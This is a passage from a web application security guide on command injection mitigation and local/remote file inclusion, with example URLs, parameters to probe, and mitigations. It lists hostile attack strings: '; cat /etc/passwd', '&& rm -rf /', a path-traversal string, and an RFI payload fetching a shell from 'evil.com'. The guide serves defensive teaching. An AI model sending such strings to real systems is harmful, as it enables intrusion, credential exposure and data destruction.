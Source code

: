 **Mitigation**:

- Avoid directly executing user-supplied input.
- Use secure functions (e.g., PHP’s `escapeshellarg()`).

**Exploitable Parameters**:

- `cmd=`
- `exec=`
- `action=`

**Potential Attack Strings**:

- `; cat /etc/passwd`
- `&& rm -rf /`

---

### **3.6. Local File Inclusion (LFI) / Remote File Inclusion (RFI)**

**Vulnerability Description**: File inclusion vulnerabilities occur when a server uses a query parameter to dynamically include files. If unvalidated, an attacker can include local or remote files, leading to code execution or data exposure.

**Example URL**:

```
<https://example.com/include.php?file=header.php>

```

An attacker might try:

```
<https://example.com/include.php?file=../../etc/passwd>

```

For RFI, an attacker might use a remote URL to include malicious scripts.

**Mitigation**:

- Restrict file inclusion to specific directories.
- Use whitelisting of allowed files.

**Exploitable Parameters**:

- `file=`
- `template=`
- `page=`

**Potential Attack Strings**:

- `../../etc/passwd`
- `http://evil.com/shell.php`

---

### **4. Common Dangerous Functions in Web Applications**
